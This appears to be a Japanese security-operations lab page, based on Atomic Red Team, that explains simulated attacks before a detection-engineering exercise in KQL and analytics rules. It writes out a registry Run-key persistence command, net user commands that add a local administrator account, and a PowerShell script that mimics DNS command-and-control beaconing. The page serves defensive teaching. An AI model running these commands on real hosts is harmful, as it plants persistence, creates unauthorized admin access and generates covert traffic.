

# モジュール 7 - ラボ 1 - 演習 4 - 検出モデリングを理解する

## ラボ シナリオ



### タスク 1: 攻撃を理解する

**重要: この演習では、アクションを実行しません。**  これらの手順は、次の演習で実行する攻撃を説明することを目的としています。このページを慎重にお読みください。

攻撃パターンはオープンソースプロジェクトに基づいています： https：//github.com/redcanaryco/atomic-red-team

**注:** 一部の設定は、ラボの目的のためだけに、より短い時間枠でトリガーされます。

#### 攻撃　1　-　レジストリキーの追加による永続性。

この攻撃は、コマンドプロンプトから実行されます。

    ```Command
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```

#### 攻撃 2 - ユーザーが特権を追加および昇格

攻撃者は新しいユーザーを追加し、新しいユーザーを Administrators グループに昇格させます。  これにより、攻撃者は特権のある別のアカウントでログオンできます。

    ```Command
    net user theusernametoadd /add
    net user theusernametoadd ThePassword1!
    net localgroup administrators theusernametoadd /add
    ```

### 攻撃 3 - ドメイン ネーム サービス / コマンド＆コントロール 

この攻撃は、コマンド＆コントロール (C2) 通信をシミュレートします。

    ```PowerShell
    param(
        [string]$Domain = "microsoft.com",
        [string]$Subdomain = "subdomain",
        [string]$Sub2domain = "sub2domain",
        [string]$Sub3domain = "sub3domain",
        [string]$QueryType = "TXT",
            [int]$C2Interval = 8,
            [int]$C2Jitter = 20,
            [int]$RunTime = 240
    )
    $RunStart = Get-Date
    $RunEnd = $RunStart.addminutes($RunTime)
    $x2 = 1
    $x3 = 1 
    Do {
        $TimeNow = Get-Date
        Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        if ($x2 -eq 3 )
        {
            Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
            $x2 = 1
        }
        else
        {
            $x2 = $x2 + 1
        }
        if ($x3 -eq 7 )
        {
            Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
            $x3 = 1
        }
        else
        {
            $x3 = $x3 + 1
        }
        $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
        Start-Sleep -Seconds $Jitter
    }
    Until ($TimeNow -ge $RunEnd)
    ```

### タスク 2: 検出モデリングを理解します。

このラボで使用されている攻撃検出構成サイクルは、2つの特定のデータソースのみに焦点を当てている場合でも、すべてのデータソースを表します。

検出を構築するには、最初に KQL ステートメントの構築から始めます。  ホストを攻撃するため、KQL ステートメントの作成を開始するための代表的なデータがあります。

次のラボでは、Defender for Endpoint がインストールされている Windows ホストと Sysmon がインストールされている Windows で同じ攻撃を実行します。  検出を構築すると、それぞれのデータ正規化の違いがわかります。

KQL ステートメントを取得したら、分析ルールを作成します。

ルールがトリガーされてアラートとインシデントが作成されたら、調査を行って、セキュリティ オペレーション アナリストの調査に役立つフィールドを提供しているかどうかを判断します。

次に、分析ルールにその他の変更を加えます。

# 演習 5 に進みます。
